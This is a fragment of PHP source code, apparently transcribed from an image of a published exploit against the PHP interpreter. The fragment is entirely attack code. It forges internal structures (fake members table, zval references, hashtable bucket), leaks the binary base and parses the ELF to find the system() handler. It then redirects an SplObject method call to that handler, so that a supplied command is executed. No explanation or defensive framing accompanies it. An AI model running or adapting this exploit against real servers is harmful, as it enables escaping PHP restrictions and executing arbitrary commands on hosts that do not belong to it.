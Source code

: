 ```php
        # fake static members table
        $fake_tbl_off = 0x70 * 4 - 16;
        $this->write($this->abc, 0x30, $abc_addr + $fake_tbl_off);
        $this->write($this->abc, 0x38, $abc_addr + $fake_tbl_off);

        # fake zval_reference
        $this->write($this->abc, $fake_tbl_off, $abc_addr + $fake_tbl_off + 0x10); # zval
        $this->write($this->abc, $fake_tbl_off + 8, 10); # zval type (reference)

        # look for binary base
        $binary_leak = $this->leak2($handlers + 0x10);
        if(!($base = $this->get_binary_base($binary_leak))) {
            die("Couldn't determine binary base address");
        }

        # parse elf header
        if(!($elf = $this->parse_elf($base))) {
            die("Couldn't parse ELF");
        }

        # get basic_functions address
        if(!($basic_funcs = $this->get_basic_funcs($base, $elf))) {
            die("Couldn't get basic_functions address");
        }

        # find system entry
        if(!($zif_system = $this->get_system($basic_funcs))) {
            die("Couldn't get zif_system address");
        }
        
        # copy hashtable offsetGet bucket
        $fake_bkt_off = 0x70 * 5 - 16;

        $function_data = $this->str2ptr($this->abc, 0x50);
        for($i = 0; $i < 4; $i++) {
            $this->write($this->abc, $fake_bkt_off + $i * 8, 
                $this->leak2($function_data + 0x40 * 4, $i * 8));
        }

        # create a fake bucket
        $fake_bkt_addr = $abc_addr + $fake_bkt_off;
        $this->write($this->abc, 0x50, $fake_bkt_addr);
        for($i = 0; $i < 3; $i++) {
            $this->write($this->abc, 0x58 + $i * 4, 1, 4);
        }

        # copy bucket zval
        $function_zval = $this->str2ptr($this->abc, $fake_bkt_off);
        for($i = 0; $i < 12; $i++) {
            $this->write($this->abc,  $fake_bkt_off + 0x70 + $i * 8, 
                $this->leak2($function_zval, $i * 8));
        }

        # pwn
        $this->write($this->abc, $fake_bkt_off + 0x70 + 0x30, $zif_system);
        $this->write($this->abc, $fake_bkt_off, $fake_bkt_addr + 0x70);

        $spl1->offsetGet($cmd);

        exit();
    }
}

```